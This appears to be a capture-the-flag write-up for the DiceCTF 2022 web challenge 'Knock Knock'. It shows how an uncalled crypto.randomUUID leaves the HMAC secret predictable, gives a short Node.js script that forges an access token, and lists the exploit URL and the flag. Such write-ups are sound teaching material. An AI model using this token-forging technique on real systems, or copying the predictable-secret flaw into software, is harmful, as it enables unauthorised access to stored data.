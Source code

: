 # Knock Knock

# Background
This chall is strange and really cool also and make me to learn node js from basic back.


# Vuln detect
So, there is two mistake in source code if you look carefully.

1. In below, you can see the `this.secret` object will craete a hash with `randomUUID` function. but that didn't being called as a function in source. So, this will just return a `undefined` [Example file](https://github.com/ComdeyOverflow/CTF-Writeup/blob/main/Dice-CTF-2022/Knock-Knock/example.js). 
  **don't ask me why because i am noob at js**
```
class Database {
  constructor() {
    this.notes = [];
    this.secret = `secret-${crypto.randomUUID}`;
  }
```
2. as a below source, we can know that Developer generate a `token` value with a `id`, also create the hash with `this.secret` object too: 
  `createHmac('sha256', this.secret`. And the most scary part is that know the secret's value :). it is `secret-${crypto.randomUUID}`!!.
```
generateToken(id) {
    return crypto
      .createHmac('sha256', this.secret) // here is main vuln
      .update(id.toString()) 
      .digest('hex');
  }
}
```

So, we know the vuln now, what need to do? and also how we can get flag? answer is in below!!

# Solution
So first, we know the secret value!.

and this line make us to get easier `else res.send(note.data);`. by this line, we can know that if we pass `note.error`, we will get the data that return.
 and there is only data to return in database is FLAG!!!!!!!!!.
 
 So, why not create our own hash for token?. let create!!
 
 # Solve.js
 ```
const crypto = require('crypto');
secret = `secret-${crypto.randomUUID}`;

console.log(`${crypto.createHmac('sha256', secret).update('0').digest('hex')}`);
 ```
this output this hash `7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264`. 

**Note**: the hash will be diffrent dude to node version. i used node version `17.4.0`. you have to be same or at least not too outdate with the challenge's server node version.

# get flag
https://knock-knock.mc.ax/note?id=0&token=7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264
`dice{1_d00r_y0u_d00r_w3_a11_d00r_f0r_1_d00r}`

# To CTF orgraziners
Thanks for really awesome Web challenges and other challs too.

Thanks for reading all!!

